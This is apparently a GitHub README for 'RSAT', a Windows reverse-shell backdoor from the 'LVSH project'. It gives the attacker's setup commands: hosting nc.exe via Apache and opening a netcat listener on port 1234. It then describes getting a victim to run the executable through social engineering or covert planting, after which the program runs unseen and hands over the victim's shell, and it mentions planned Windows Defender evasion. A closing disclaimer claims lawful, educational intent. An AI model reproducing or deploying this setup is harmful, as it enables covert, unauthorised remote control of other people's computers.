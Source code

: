 
![RCAT (1)](https://github.com/LostOliie/rsat/assets/137381675/ad3fe0d3-2e62-4a7d-8639-d6911024d68e)


# RSAT
**Reverse Shell Attacking Terminal(RSAT)** is an executable application which can be used to remotely access _a target computer_ from the _attackers computer_ using a service named as **netcat**. **RSAT** is currentely only available to **linux based computers and windows based computers.** Essentially, **RSAT has simply automated the netcat service and made it applicable to** _the backdoor of the target system_so that the user does not know. **RSAT** is a part of the LVSH project which is a hacking framwork  under development. The user must read the full README.md before using the program for smooth and appropriate use.


![RCAT (2)](https://github.com/LostOliie/rsat/assets/137381675/8c1c548c-8f52-463b-a054-a37a366e04bb)


# How does it work?
The attackers computer has to be  _a linux based computer(recommended kali linux)_ the attacking computer shall have netcat installed,

The attacker shall execute **the following commands in their terminal:**

    sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/nc.exe
    sudo systemctl start apache2.service
    nc -nlvp 1234

These commands **start a server and start listening on ** a port named _1234_, the output of these commands should be like so:

      listening on [any] 1234 ...

After doing so, the attacker must simply implant or send the target the **LVSH RSAT** executable into the target computer, then the hacker shall make the target execute it using social engineering **skills or the hacker can execute the .exe file ** when he _implants the file _.

After this the target computer will **not be seeing anything and the ** _program will run infinitly unless the system is restarted or turned off_.

Then the attackers computer will have access to the **target computers shell which the attacker can use to access the device :-)**

**NOTE: THE TARGET COMPUTER HAS TO HAVE WINDOWS DEFENDER DISABLED, THE LVSH PROJECT IS WORKING ON BYPASSING THIS IN THE NEXT VERSION., THE COMMANDS FOR THE ATTACKER ARE LINUX BASED ONLY WHILE THE COMMANDS OF THE TARGET ARE WIN BASED ONLY.*

# Terms & Conditions

Disclaimer: Legal and Responsible Use Statement

The following statement serves as a disclaimer to emphasize the importance of using any program, tool, or software for lawful and ethical purposes only. We strongly discourage and condemn the use of our program for illegal hacking activities or any malicious intent. By using this program, you agree to the terms and conditions outlined below:

Lawful Use: You acknowledge that the program provided is intended solely for legal and ethical purposes. You agree to utilize the program in accordance with local, national, and international laws, regulations, and guidelines.

Prohibited Activities: You agree not to engage in any activities that are illegal, unethical, or harmful to others. This includes, but is not limited to, unauthorized access to computer systems, data breaches, identity theft, malicious attacks, or any actions that compromise the security and privacy of individuals or organizations.

Personal Responsibility: You accept full responsibility for your actions and the consequences that may arise from using the program. You understand that any misuse or illegal activity associated with this program may result in legal penalties, including but not limited to civil and criminal liability.

No Endorsement: The program provider does not endorse or support any illegal or malicious use of the program. We strictly promote ethical conduct, lawful practices, and respect for privacy and security.

Educational and Research Purposes: This program may be used for educational and research purposes to enhance knowledge, improve cybersecurity practices, and promote responsible technology use. However, it should be used solely in controlled environments with appropriate permissions and consents.

Ethical Guidelines: We encourage users to follow established ethical guidelines and respect the rights, privacy, and security of others. Use the program to enhance your understanding, contribute positively to the field, and protect digital ecosystems.

No Warranty: The program is provided "as is" without any warranties, express or implied. The program provider shall not be held responsible for any damages, losses, or liabilities incurred by the user or any third party as a result of using the program.

By using this program, you acknowledge that you have read and understood this disclaimer and agree to abide by its terms and conditions. You further understand that violation of this disclaimer may result in the termination of your access to the program and potential legal consequences.

Remember, technology should be used responsibly, ethically, and legally to ensure a safe and secure digital environment for all. 



    PS: **PROGRAM MADE BY LVSH PROJECT AKA LOSTOLIIE **
